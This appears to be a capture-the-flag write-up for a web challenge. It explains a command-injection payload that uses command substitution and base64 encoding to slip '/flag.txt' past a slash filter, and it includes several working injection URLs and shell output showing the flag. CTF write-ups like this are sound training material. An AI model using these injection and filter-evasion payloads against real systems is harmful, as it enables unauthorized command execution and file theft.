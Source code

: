 Base64 allows the forward slash character to be encoded:

```
L2ZsYWcudHh0 -> (base64 decode) -> /flag.txt
```

Not sure why the `-l app.py` is there tbh. Might have been artifacts from previous injections. It still works but doesn't seem like it's required. The following works:

```
http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```

Decoded URL:

```
http://challenges.oceaniacc.com:5001/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/man
```

One thing I tried with this payload is without the pipe character. So something like this would work if the `bash` shell was used:

```
$(base64 -d <<< 'L2ZsYWcudHh0')
```

However, this redirection operator doesn't work on `sh` which means it won't on this challenge.

Additionally, I wanted to highlight the use of the command substitution to print the flag in the error message rather than printing to `stdout` is very creative. However, this only works because the executable bit is set for the `flag.txt` file. 

```sh
$ ls -l /flag.txt
-rw-r--r-- 1 root root 12 Feb  8 18:14 /flag.txt
$ /flag.txt
sh: 11: /flag.txt: Permission denied
$ sudo chmod +x /flag.txt
$ /flag.txt
/flag.txt: 1: oicc{hello}: not found
```

If stderr is not outputted or the executable bit is not set, I would make the payload like this:

```
http://challenges.oceaniacc.com:5001/;/--html=cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)/man
```

URL decoded:

```
http://challenges.oceaniacc.com:5001/;/--html=cat $(echo 'L2ZsYWcudHh0'|base64 -d)/man
```

Note a very interesting behaviour between the two payloads:

```
http://challenges.oceaniacc.com:5001/;/--html=%22cat%20$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/man
```

![Base64 Payload Stdout 1](images/manic/base64_payload_stdout_output_1.png)
